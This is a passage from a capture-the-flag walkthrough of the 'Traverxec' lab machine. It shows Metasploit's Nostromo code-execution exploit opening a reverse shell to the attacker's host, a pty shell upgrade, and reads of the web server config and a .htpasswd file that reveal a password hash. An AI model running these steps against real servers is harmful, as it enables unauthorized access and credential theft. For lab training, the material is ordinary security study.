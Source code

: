```console
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 10.10.16.39
LHOST => 10.10.16.39
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.16.39:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.16.39:4444 -> 10.10.10.165:36256) at 2020-04-10 22:31:56 +0200
                                     
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ hostname
hostname
traverxec
```

## Nostromo Config :

```console
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www

www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

```


[logo]: Traverxec.jpg